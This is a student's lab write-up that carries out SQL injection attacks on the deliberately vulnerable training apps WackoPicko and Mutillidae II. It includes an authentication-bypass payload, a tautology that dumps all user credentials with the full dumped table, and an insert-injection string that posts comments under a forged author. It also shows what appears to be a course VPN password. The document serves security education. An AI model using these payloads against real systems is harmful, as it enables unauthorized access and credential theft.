

# Assignment lab 2

### Hacknet server connection
- open VM (Kali Linux)
- open terminal in `/Desktop/c22`
- run `sudo openvpn hacknet.ovpn`
- introduce password received on email (`H8kZ8j`)
- access link `https://10.200.10.1/hnet` in browser
- for this assignment I've accessed the server with ip address `10.200.122.18`
- it should look something like this

I will go to the marked projects for completing the assignment

## 1. Create a SQL injection attack on the OWASP WackoPicko application to bypass the authentication step.

Source of inspiration: [github repo for WackoPicko](https://github.com/adamdoupe/WackoPicko)

I will follow the steps from section `Exploit 3: bypass authentication` from [laboratory material](./WS%20-%20Assignment%202.pdf)

- started `Tamper Data`
- Clicked `Login`


- check the code for authentication (and figure out how can be bypassed)
- login page code of interest:
```
...
if ($user = Users::check_login($_POST['username'], $_POST['password'],
True))
...
 ```

- check_login code of interest

``` 
...
function check_login($username, $pass, $vuln = False)
{
if ($vuln)
{
$query = sprintf("SELECT * from `users` where `login` like '%s' and
`password` = SHA1( CONCAT('%s', `salt`)) limit 1;",
$username,
mysql_real_escape_string($pass));
}
...
```

Vulnerable part: *where login like '%s'* → we don't need to know credentials for a specific user, we can put
the % pattern to match the login word and append to it a string that represents a true state and for the
password we can insert any string.
The input that I used is:
- username: %' or '1'='1
- password: parola



- pressing the `login` button


## 2. Create a SQL injection attack on the OWASP Mutillidae II application, section OWASP 2013 -> A1 Injection (SQL) -> SQLi - Extract data -> User Info (SQL) that displays information about all users in the database


- go to the specified path:


- first attempt:
    - username: `admin`
    - password: `' OR '1'='1'`


- credentials used: 
    - username: `' OR '1'='1`
    - password: `' OR '1'='1`


Results:

``` 
Username=admin
Password=admin
Signature=g0t r00t?

Username=adrian
Password=somepassword
Signature=Zombie Films Rock!

Username=john
Password=monkey
Signature=I like the smell of confunk

Username=jeremy
Password=password
Signature=d1373 1337 speak

Username=bryce
Password=password
Signature=I Love SANS

Username=samurai
Password=samurai
Signature=Carving fools

Username=jim
Password=password
Signature=Rome is burning

Username=bobby
Password=password
Signature=Hank is my dad

Username=simba
Password=password
Signature=I am a super-cat

Username=dreveil
Password=password
Signature=Preparation H

Username=scotty
Password=password
Signature=Scotty do

Username=cal
Password=password
Signature=C-A-T-S Cats Cats Cats

Username=john
Password=password
Signature=Do the Duggie!

Username=kevin
Password=42
Signature=Doug Adams rocks

Username=dave
Password=set
Signature=Bet on S.E.T. FTW

Username=patches
Password=tortoise
Signature=meow

Username=rocky
Password=stripes
Signature=treats?

Username=tim
Password=lanmaster53
Signature=Because reconnaissance is hard to spell

Username=ABaker
Password=SoSecret
Signature=Muffin tops only

Username=PPan
Password=NotTelling
Signature=Where is Tinker?

Username=CHook
Password=JollyRoger
Signature=Gator-hater

Username=james
Password=i<3devs
Signature=Occupation: Researcher

Username=user
Password=user
Signature=User Account

Username=ed
Password=pentest
Signature=Commandline KungFu anyone?
```

## 3. Create a SQL injection attack on the OWASP Mutillidae II application, section OWASP 2013 -> A1 Injection (SQL) -> SQLi - Insert Injection -> Add to your blog with the aim to insert a comment without logging in to the site. Change the author of the comment so that it is not anonymous. Display comments inserted by SQL injection

- path:


- trying to post the message `' OR '1'='1'`


- trying the following input:

`post_test' , now()), ('my_user', 'my_comment', now()) -- `

- post
- going to view all blogs: click `View blogs` near table with current user blogs
- select `Show all` from `Please Choose Author` then press `View Blog Entries`
Here is the entry posted with `my_user` username.
